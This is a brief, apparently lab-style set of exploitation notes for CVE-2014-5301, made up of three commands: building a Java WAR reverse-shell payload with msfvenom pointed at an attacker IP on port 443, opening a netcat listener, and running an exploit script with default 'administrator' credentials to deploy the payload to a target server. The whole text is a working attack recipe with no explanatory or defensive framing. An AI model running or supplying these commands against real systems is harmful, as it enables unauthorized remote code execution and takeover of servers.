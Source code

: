 1. Make a war reverseshell
   ```
   msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.205 LPORT=443 -f war > shell.war
   ```
2. Get reverse connection
   ```
   nc -lnvp 443
   ```
3. run the exploit
   ```
   python3 CVE-2014-5301.py 192.168.239.43 8080 administrator administrator shell.war
   ```
